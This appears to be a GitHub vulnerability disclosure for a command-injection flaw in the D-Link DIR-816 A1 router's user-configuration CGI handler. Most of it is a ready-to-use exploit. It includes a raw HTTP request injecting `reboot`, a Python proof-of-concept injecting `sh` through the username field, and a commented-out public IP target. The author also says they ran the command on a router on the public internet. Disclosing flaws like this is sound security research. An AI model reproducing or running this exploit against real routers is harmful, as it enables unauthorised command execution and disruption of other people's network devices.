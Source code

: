 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_459EF0 ruction in IDA view

![image-20210820151433873](./img/image-20210820151433873.png)

​	Select user account configuration under the maintenance option of router configuration.

![image-20210820151842671](./img/image-20210820151842671.png)

​	 Different from dir-816a2_ FWv1.10CNB05_ R1b011d88210 firmware version this version only needs to close the  command with single quotation marks and then execute our command with a  semicolon ，don't even need to ask for a tokenid

```
POST /goform/form2userconfig.cgi HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: http://xxxx
Connection: close
Referer: http://xxxx/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=123';reboot;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send
```

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":"123';sh;'",#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

![image-20210820152544416](./img/image-20210820152544416.png)

​	GDB stops at the command we are about to execute

![image-20210820152604249](./img/image-20210820152604249.png)	Successfully executed sh

​	I successfully asked the router on the public network to execute the reboot command

